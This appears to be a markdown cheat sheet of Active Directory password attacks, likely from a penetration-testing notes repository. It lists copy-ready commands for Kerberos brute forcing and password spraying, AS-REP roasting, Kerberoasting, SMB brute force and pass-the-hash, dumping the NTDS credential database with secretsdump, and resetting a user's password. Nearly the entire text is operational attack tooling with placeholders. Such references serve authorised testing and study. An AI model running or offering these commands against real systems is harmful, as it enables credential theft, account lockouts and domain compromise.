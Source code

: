 # Passwords
## Kerberos
Brute force passwords - WILL LOCKOUT USER:
`kerbrute bruteuser --dc <IP> -d <DOMAIN> <PASSLIST> <USER>`

Check a password for userlist:
`kerbrute passwordspray --dc <IP> -d <DOMAIN> -v <USERLIST> <PASS>`

AS-REP (AS-REP Roasting):
`impacket-GetNPUsers -dc-ip <IP> <DOMAIN>/ -usersfile <USERLIST>` # use --downgrade to get correct hash
`impacket-GetNPUsers -dc-ip <IP> <DOMAIN>/<USER>:<PASS> -request` # use --downgrade to get correct hash
`crackmapexec ldap <IP> --kdcHost <IP> -u <USER> -p <PASS> --asreproast <OUTPUT>`

TGS-REP (Kerberoasting):
`impacket-GetUserSPNs -dc-ip <IP> <DOMAIN>/<USER>:<PASS> -request`
`crackmapexec ldap <IP> --kdcHost <IP> -u <USER> -p <PASS> --kerberoasting <OUTPUT>`

## NetBIOS & SMB
Brute force passwords - WILL LOCKOUT USER:
`crackmapexec smb <IP> -u <USER> -p <PASSLIST>`
`crackmapexec smb <IP> -u <USER> -H <HASHES>`

Check password for users in list:
`crackmapexec smb <IP> -u <USERLIST> -p <PASS>`

If you have admin rights. Dump NTDS file:
`impacket-secretsdump '<DOMAIN>/<USER>:<PASS>@<IP>'`

Change password user:
`smbpasswd -U <USER> -r <DC_IP>`